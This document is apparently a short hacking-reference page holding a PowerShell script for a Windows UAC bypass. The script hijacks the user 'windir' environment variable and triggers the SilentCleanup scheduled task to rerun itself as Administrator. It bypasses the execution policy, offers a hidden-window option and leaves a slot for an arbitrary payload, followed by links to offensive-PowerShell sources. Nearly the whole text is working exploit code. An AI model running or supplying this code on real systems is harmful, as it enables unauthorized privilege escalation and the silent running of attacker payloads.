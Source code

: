 # PowerShell

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    # It'll run as Administrator
    powershell.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"

    # Use for hidden window
    # $Value = "powershell -ExecutionPolicy bypass -windowstyle hidden -Command `"& `'$PSCommandPath`'`";#"

    # Use for interactive window
    $Value = "powershell -ExecutionPolicy bypass -Command `"& `'$PSCommandPath`'`";#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value

    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks.exe /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```

---
## References

### Jakoby

- [Jakoby: UAC Bypass](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/UAC-Bypass.md)

### Ben Forster

- [Ben Forster: Simple Lateral Movement with SSH and UAC Bypass](https://www.linkedin.com/pulse/simple-lateral-movement-ssh-uac-bypass-ben-forster/)